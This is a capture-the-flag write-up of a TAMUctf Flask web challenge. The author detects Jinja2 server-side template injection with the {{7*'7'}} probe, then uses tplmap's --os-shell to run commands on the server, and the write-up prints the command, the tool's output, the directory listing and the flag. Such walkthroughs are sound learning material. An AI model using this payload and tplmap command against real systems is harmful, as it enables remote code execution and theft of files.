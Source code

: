 This was a web challenge with an estimated difficulty of "medium". Other than the difficulty, the only content in the challenge description was a link to the target web server.

Browsing to the web server reveals a page that reads "Welcome to my new FaaS! (Flask as a Service) Please enter the two chemicals you would like to combine: " and then two fields for Chemical One and Chemical Two. Using Burp Suite to intercept this POST request shows that the request and response look like this:

<code>
POST /science HTTP/1.1 <br/>
Host: web3.tamuctf.com<br/>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0<br/>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8<br/>
Accept-Language: en-US,en;q=0.5<br/>
Accept-Encoding: gzip, deflate<br/>
Referer: http://web3.tamuctf.com/<br/>
Content-Type: application/x-www-form-urlencoded<br/>
Content-Length: 15<br/>
Connection: close<br/>
Upgrade-Insecure-Requests: 1<br/>

chem1=a&chem2=b<br/>


HTTP/1.1 200 OK<br/>
Server: nginx/1.15.8<br/>
Date: Mon, 04 Mar 2019 13:33:53 GMT<br/>
Content-Type: text/html; charset=utf-8<br/>
Content-Length: 272<br/>
Connection: close<br/>

\<html>
        \<div style="text-align:center"><br/>
        \<h3>The result of combining a and b is:\</h3>\</br><br/>
        \<iframe src="https://giphy.com/embed/AQ2tIhLp4cBa" width="468" height="480" frameBorder="0" class="giphy-embed" allowFullScreen>\</iframe>\</div><br/>
        \</html>
</code>


Interestingly, user-provided output is reflected in the HTTP response. Given the reference to Flask, this suggested to me the possiblity of a Server-Side Teplate Injection vulnerability. To test for this futher, I made use of <a href="https://portswigger.net/blog/server-side-template-injection">this excellent blog post </a>from Portswigger.

The blog post recommends using a couple different payloads and seeing if they're interpreted by the templating engine before being reflected to the user. One of the recommended payloads is {{7*'7'}}. I sent this data via POST request:

<code>
chem1={{7*'7'}}&chem2={{7*'7'}}<br/>
</code>

The relevant portion of the response was:

<code>
The result of combining 7777777 and 7777777 is:<br/>
</code>

Clearly, my input had been interpreted. This particular response indicates that the Jinja2 templating engine is in use. Rather than try to perform further exploitation by hand, I decided to take the opportunity to experiment with the tool TPLmap, which is an automated exploitation tool for SSTI vulnerabilities, much like SQLmap for SQL injection vulnerabilities. The tool can be found here:
https://github.com/epinna/tplmap

TPLmap has a feature that, after determining an injection point, will provide a pseudo-shell to the user to allow for easy remote code execution. To exploit the SSTI I'd identified, I used this command:

<code>
python tplmap.py -u "http://web3.tamuctf.com/science" -d "chem1=1&chem2=whatever" -e jinja2 --os-shell<br/>
</code>

This provided a shell, which allowed me to view the directory contents and grab the flag:

<code>
[+] Tplmap 0.5<br/>
    Automatic Server-Side Template Injection Detection and Exploitation Tool<br/>

[+] Testing if POST parameter 'chem1' is injectable<br/>
[+] Jinja2 plugin is testing rendering with tag '{{*}}' <br/>
[+] Jinja2 plugin has confirmed injection with tag '{{*}}' <br/>
[+] Tplmap identified the following injection point: <br/>

  POST parameter: chem1<br/>
  Engine: Jinja2<br/>
  Injection: {{*}}<br/>
  Context: text<br/>
  OS: posix-linux2 <br/>
  Technique: render<br/>
  Capabilities:<br/>

   Shell command execution: ok<br/>
   Bind and reverse shell: ok<br/>
   File write: ok<br/>
   File read: ok<br/>
   Code evaluation: ok, python code<br/>

[+] Run commands on the operating system.<br/>
posix-linux2 $ ls<br/>
config.py<br/>
entry.sh<br/>
flag.txt<br/>
requirements.txt<br/>
serve.py<br/>
tamuctf<br/>
posix-linux2 $ cat flag.txt<br/>
gigem{5h3_bl1nd3d_m3_w17h_5c13nc3}<br/>
</code>
